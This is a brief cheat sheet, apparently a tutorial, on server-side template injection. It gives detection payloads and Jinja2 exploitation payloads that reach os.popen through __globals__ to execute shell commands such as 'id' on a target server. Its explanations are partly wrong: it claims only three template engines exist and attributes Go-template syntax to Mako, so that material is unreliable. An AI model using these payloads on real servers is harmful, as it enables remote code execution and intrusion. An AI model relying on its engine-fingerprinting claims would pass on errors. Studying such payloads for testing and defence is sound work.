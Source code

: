 ```
`{{` - Used to mark the start of a print statement
`}}` - Used to mark the end of a print statement
`{%` - Used to mark the start of a block statement
`%}` - Used to mark the end of a block statement
'{#' - Used to start a comment
```

**Examples of detection payloads**

```
{{7*7}}
Would return 49 if vulnerable
```

```
{{html "Hi"}}
Would return Hi if vulnerable
```

To print the current objects passed into the template.

```
{{ . }}
```

DebugCmd is a function that sometimes used in template engines.

```
{{ .DebugCmd "id" }}
This would return the id of the user
```

**Finding the template engine**

So if the above payloads worked, we would need to find the template engine used. There three types of template engines **Jinja2** for python-powered web servers **Twig** for php-powered webservers **Mako** for python-powered web servers If the below payload works

```
{{7*7}}
```

Then the template engine is either Jinja2 or Twig. If the below payload works

```
{{html "Hi"}}
```

Then most probably its \[Mako]

**Exploitation**

Python payload \[1] Getting the ID of the user

```python
{{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen('id').read() }}
```

`OR`

```python
{{ namespace.__init__.__globals__.os.popen('id').read() }}
```
